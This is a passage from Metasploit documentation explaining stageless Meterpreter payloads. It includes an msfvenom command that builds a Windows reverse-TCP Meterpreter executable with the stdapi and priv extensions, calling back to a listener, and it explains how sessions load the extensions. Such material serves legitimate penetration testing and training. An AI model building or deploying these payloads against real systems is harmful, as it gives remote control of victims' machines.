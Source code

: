 To add extensions to the payload, we can make use of the `EXTENSIONS` parameter, which takes a comma-separated list of extension names.

```
$ ./msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.16.52.1 LPORT=4444 EXTENSIONS=stdapi,priv -f exe -o stageless.exe
```

With a payload created, we can set up a listener which will handle the connection using `msfconsole`.

Note that the `EXTENSIONS` parameter isn't set in the handler. This is because the handler isn't responsible for them as they're already in the payload binary.
 
When a session is established, you'll also note the lack of the "Sending stage ..." message! This shows that the upload of _stage1_ didn't happen as it's not needed. If the payload that was invoked also contained `stdapi` and `priv`, then absolutely no uploads have occurred at this point.
 
Congratulations, you're dancing with stageless Meterpreter!
 
At this point, all of the pre-loaded extensions have been loaded into Meterpreter and are available for use. However, Metasploit is yet to know about them. To initiate client-site wiring of any of the pre-loaded extensions, the user can just type `use <extension>` just like they used to. Metasploit will check to see if the extension already exists in the target instance, and if it does, it will skip the extension upload and just wire-up the functions on the client side. If the extension is missing, then it will upload it and wire-up the functions on the fly just like it always has done.
 
If you're working with `meterpreter_reverse_https`, you'll notice that when new shells come in they appear just like an orphaned instance. This is expected behaviour, because a stageless session can't and won't look any different to an old session that hasn't been in touch with Metasploit for a while.